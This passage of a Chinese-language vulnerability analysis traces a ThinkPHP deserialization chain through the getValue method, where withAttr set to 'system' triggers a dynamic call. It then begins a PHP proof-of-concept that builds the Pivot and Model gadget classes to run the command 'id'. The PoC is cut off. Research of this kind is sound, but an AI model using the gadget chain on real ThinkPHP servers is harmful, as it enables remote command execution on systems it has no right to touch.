 ```php
            return $this->relation[$name];
        }
......
      
protected function getRealFieldName($name)
    {
        return $this->strict ? $name : App::parseName($name);//$strick = true默认
    }
      
protected function getValue(string $name, $value, bool $relation = false)
    {
        //name=hello,value=$this->data[hello]/$this->relation[hello], $relation=false
        // 检测属性获取器
        $fieldName = $this->getRealFieldName($name);//$this->withAttr[hello]
        $method    = 'get' . App::parseName($name, 1) . 'Attr';

        if (isset($this->withAttr[$fieldName])) {//$this->withAttr[hello]=system
            if ($relation) {
                $value = $this->getRelationValue($name);
            }//默认false

            $closure = $this->withAttr[$fieldName];
            $value   = $closure($value, $this->data);//动态函数调用
            //system('id',$this->data);                                     
      ......
```

这里设定一个自定义值，开始跟进写poc或者跟着动调写，poc设定的是第一种用system执行命令的利用方式。

#### -漏洞PoC

- `system(string $command [, int &$return_var])`方式

这种方式只能用system执行命令，其他的会收到第二个参数的影响。[phpggc针对这种方式有写poc，思路多创建了一个get方法。](https://github.com/ambionics/phpggc/blob/master/gadgetchains/ThinkPHP/RCE/1/gadgets.php)

```php
<?php
/*step5*/
namespace think\model\concern;
trait Conversion{
    protected $append = [];

}
trait Attribute{
    private $withAttr = [];
    private $data = [];
}

/*step4*/
namespace think;
abstract class Model{
    use model\concern\Conversion;
    use model\concern\Attribute;
}

/*step3*/
namespace think\model;
use think\Model;

class Pivot extends Model{
    public function __construct() {
      /*step6 跟进分析的代码自定义设值方便poc编写*/ 
        $this->append = ['hello'=>'a'];
        $this->data = ['hello' => 'id'];
```